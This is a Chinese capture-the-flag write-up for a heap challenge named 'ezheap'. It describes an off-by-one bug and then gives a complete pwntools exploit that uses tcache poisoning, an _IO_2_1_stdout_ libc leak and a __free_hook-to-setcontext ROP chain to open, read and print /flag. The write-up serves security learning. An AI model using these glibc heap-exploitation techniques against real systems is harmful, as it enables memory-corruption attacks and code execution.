




一道堆利用的菜单题。

<!--more-->

题目：[ezheap2.7z](ezheap2.7z)

## 题目分析

checksec：



沙箱:



有四个菜单：



### add

为给定的 index 调用 `malloc` 分配内存，大小可控。

### edit

调用 `read` 向指定 index 内存写入内容，存在 off by one。



### delete

调用 `free` 释放指定 index 内存。

### gift

不是 1 可以拿到 pie 基址。

## 思路

1. 申请几个物理连续的内存块，配合 off by one 制造 chunk overlapping 攻击 `tcache_entry->next` 实现任意位置写。
2. 篡改 `_IO_2_1_stdout_` 泄漏 libc 基址。
3. 劫持 `__free_hook` 到 ROP。

## poc

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'

p = process('./ezheap')

libc_version = '2.27-3ubuntu1.6_amd64'
file = './ezheap'
p = process([f"/root/glibc-all-in-one/libs/{libc_version}/ld-linux-x86-64.so.2",
             file], env={"LD_PRELOAD": f"/root/glibc-all-in-one/libs/{libc_version}/libc.so.6"})
# p = remote('node4.buuoj.cn', 29492)

# gdb.attach(p)
# pause()

elf=ELF(file)

libc = ELF(f"/root/glibc-all-in-one/libs/{libc_version}/libc.so.6")
# libc=ELF('./libc.so.6')

def alloc(idx, size):
    p.sendlineafter("choice:", b"1")
    p.sendlineafter("index:", str(idx))
    p.sendlineafter("Size:", str(size))

# off by one
def write(idx, content):
    p.sendlineafter("choice:", b"2")
    p.sendlineafter("index:", str(idx))
    p.sendafter("context: ", content)

# no uaf
def free(idx):
    p.sendlineafter("choice:", b"3")
    p.sendlineafter("index:", str(idx))

def leak_pie():
    p.sendlineafter("choice:", b"4")
    p.sendlineafter("choose:", b"4")
    p.recvuntil(b'\n')
    return int(p.recv(14), 16) - 0x202160

# leak pie base
pie = leak_pie()

print(hex(pie))

############### leak libc #####################
stdout = pie + 0x202020   # ptr to _IO_2_1_stdout_

# prepare continuous chunk
alloc(0, 0x30 - 0x8)      # chunk 0, size 0x30
alloc(1, 0x30 - 0x8)      # chunk 1, size 0x30
alloc(2, 0x30 - 0x8)      # chunk 2, size 0x30
# pause()

# construct chunk overlapping by off by one
write(0, b'\x00' * 0x28 + b'\x61')                                      # chunk1->size = 0x60 | PREV_INUSE, chunk1 over chunk2
free(1)                                                                 # free chunk1 to tcachebin1
alloc(1, 0x60 - 0x8)                                                    # realloc chunk1, size 0x60
free(2)                                                                 # free chunk2 to tcachebin1
# pause()
write(1, b'\x00' * (0x30 - 0x8) + p64(0x31) + p64(stdout))              # chunk2->fd/next = addr of stdout, make tachebin1 -> chunk2 -> stdout -> _IO_2_1_stdout_
alloc(2, 0x30 - 0x8)                                                    # realloc chunk2, make tcachebin1 -> stdout -> _IO_2_1_stdout_
alloc(2, 0x30 - 0x8)                                                    # again alloc tcache, make tcachebin1 -> _IO_2_1_stdout_
alloc(2, 0x30 - 0x8)                                                    # again alloc tcache, get _IO_2_1_stdout_ ptr
# pause()
write(2, p64(0xfbad1800) + p64(0x00) * 0x3 + b'\x00')                   # set _IO_2_1_stdout_->file.flag = 0xfbad1800 and IO_2_1_stdout_->file._IO_write_base &= 0xffffffffffffff00
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x3ed8b0 # recv leak addr from stdout
print(hex(libc_base))
# pause()
############### leak libc end #################

############### prepare __free_hook rop #################
syscall = libc_base + libc.search(asm('syscall\nret'), executable=True).__next__()
pop_rax = libc_base + libc.search(asm('pop rax\nret'), executable=True).__next__()
pop_rdi = libc_base + libc.search(asm('pop rdi\nret'), executable=True).__next__()
pop_rsi = libc_base + libc.search(asm('pop rsi\nret'), executable=True).__next__()
pop_rdx = libc_base + libc.search(asm('pop rdx\nret'), executable=True).__next__()
ret = libc_base + libc.search(asm('ret'), executable=True).__next__()
bss = pie + elf.bss() + 0x100

print('pop_rax => ' + hex(pop_rax))

payload = p64(pop_rdi) + p64(0x0) + p64(pop_rsi) + p64(bss + 0x200) + p64(pop_rdx) + p64(0x200) + p64(pop_rax) + p64(0x0) + p64(syscall)                    # read(0, bbs+0x200, 0x200)
payload = p64(pop_rdi) + p64(0x0) + p64(pop_rsi) + p64(bss + 0x10+ len(payload)) + p64(pop_rdx) + p64(0x200) + p64(pop_rax) + p64(0x0) + p64(syscall)       # read(0, bbs+len(payload), 0x200)

alloc(0, 0x40 - 0x8)
alloc(1, 0x40 - 0x8)   
alloc(2, 0xb0 - 0x8)   # chunk size 0xb0
write(0, b'\x00' * 0x38 + b'\xf1')
free(1)
alloc(1, 0xf0 - 0x8)
free(2)
write(1, b'\x00' * (0x40 - 0x8) + p64(0xb1) + p64(bss))
alloc(2, 0xb0 - 0x8)
alloc(2, 0xb0 - 0x8)
write(2, b'/flag'.ljust(8, b'\x00') + p64(0x0) + payload)                       # chunksize limits the size of payload, so it can only be extended further by reading.
print(hex(bss))
# pause()     # dq bss 20
############### prepare __free_hook rop end #############

############ hijack __free_hook to ROP ###############
__free_hook = libc_base + libc.sym['__free_hook']
print(hex(__free_hook))
# pause() # x/a (char*)&__free_hook
###########################
# setcontext+0x35:
#   mov     rsp, [rdi+0A0h]
#   mov     rbx, [rdi+80h]
#   mov     rbp, [rdi+78h]
#   mov     r12, [rdi+48h]
#   mov     r13, [rdi+50h]
#   mov     r14, [rdi+58h]
#   mov     r15, [rdi+60h]
#   mov     rcx, [rdi+0A8h]
#   push    rcx
#   mov     rsi, [rdi+70h]
#   mov     rdx, [rdi+88h]
#   mov     rcx, [rdi+98h]
#   mov     r8, [rdi+28h]
#   mov     r9, [rdi+30h]
#   mov     rdi, [rdi+68h]
###########################
setcontext = libc_base + libc.sym['setcontext'] + 0x35
# overlapping chunk to hijack __free_hook to setcontext
alloc(0, 0x20 - 0x8)
alloc(1, 0x20 - 0x8)
alloc(2, 0x20 - 0x8)
# pause()
write(0, b'\x00' * 0x18 + b'\x41')
free(1)
alloc(1, 0x40 - 0x8)
free(2)
write(1, b'\x00' * (0x20 -0x8) + p64(0x21) + p64(__free_hook))
alloc(2, 0x20 - 0x8)
alloc(2, 0x20 - 0x8)
write(2, p64(setcontext))
# pause()             # x/a (char*)&__free_hook
############# hijack __free_hook to ROP end ###########

############### call free to exploit __free_hook #################
alloc(0, 0x300)
write(0, b'\x00' * 0xa0 + p64(bss + 0x10) + p64(ret))
# pause()
free(0)
############### call free to exploit __free_hook end #############

# send extended ROP
payload = p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0x0) + p64(pop_rax) + p64(0x2) + p64(syscall)                                        # open('/flag', 0)
payload += p64(pop_rdi) + p64(0x3) + p64(pop_rsi) + p64(bss + 0x200) + p64(pop_rdx) + p64(0x30) + p64(pop_rax) + p64(0x0) + p64(syscall)    # read(3, bbs+0x100, 0x30)
payload += p64(pop_rdi) + p64(0x1) + p64(pop_rsi) + p64(bss + 0x200) + p64(pop_rdx) + p64(0x30) + p64(pop_rax) + p64(0x1) + p64(syscall)    # write(1, bbs+0x100, 0x30)
# pause()
p.sendline(payload)

print(p.recvall())

# pause()
# p.interactive()
```
